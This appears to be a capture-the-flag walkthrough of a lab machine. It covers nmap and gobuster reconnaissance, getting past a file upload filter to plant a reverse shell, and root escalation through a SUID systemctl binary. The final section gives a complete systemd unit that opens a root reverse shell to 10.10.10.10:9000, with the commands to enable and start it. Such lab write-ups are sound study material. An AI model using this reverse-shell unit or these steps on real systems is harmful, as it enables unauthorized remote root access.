# #1: Reconnaissance 

Reconnaissance is act of gathering information about the target. 

## Practical

### Nmap



Scan through all port 
```
$ nmap -p- --min-rate 1000 -oN all-port 10.10.231.160 -v
```


Determine the version of the running services
```
$ nmap -p21,22,139,445,3128,3333 -sC -sV -oN all-port-scan 10.10.231.160 -v
```

## Questions



# #2: Locating directories using GoBuster 

## Practical

### Gobuster
```
$ gobuster dir -u http://10.10.231.160:3333 -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -o discovered.txt
```



Result:
```
/images               (Status: 301) [Size: 322] [--> http://10.10.231.160:3333/images/]
/js                   (Status: 301) [Size: 318] [--> http://10.10.231.160:3333/js/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.231.160:3333/css/]
/internal             (Status: 301) [Size: 324] [--> http://10.10.231.160:3333/internal/]
/fonts                (Status: 301) [Size: 321] [--> http://10.10.231.160:3333/fonts/]
/server-status        (Status: 403) [Size: 303]
```

## Questions

  
# #3 Compromise the webserver 

## Practical

Visit the uploads page 

```
http://machine_ip:3333/internal/index.php
```



### Fuzzing File Extension 

Payload position  



Wordlist



Start attack and notice the page length



Send reverse shell



Determine upload location



Visit the /internal/uploads/  



Execute the reverse shell.  



## Questions







# #4 Privilege Escalation
Privilege escalation is act of searching potential vector such as exploit bugs, system flaws, or abuse misconfiguration to gain higher privileges (root or administrator) 

There are two types of privilege escalation:
- Horizontal Privilege Escalation, user level to another user
- Vertical Privilege Escalation, user level to super user (root/admin/system)

## Practical

### Abusing SUID
SUID (set owner userId upon execution)

The **find** command can be used to find binary with SUID bit
```
$ find / -type f -perm -u=s 2>/dev/null | grep -v proc
```

systemctl is a utility for managing system and service in Linux. With SUID bit set, it offers a potential [privesc](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740) vector.




Steps:

1. root.service

    ```
    [Unit]
    Description=im groot

    [Service]
    Type=simple
    User=root
    ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/9000 0>&1'

    [Install]
    WantedBy=multi-user.target
    ```

2. Host and download it on the target

    

    

3. Enable root.service and start service

    ```
    $ /bin/systemctl enable /dev/shm/root.service
    ```

    ```
    $ /bin/systemctl start root
    ```

4. Check the listener

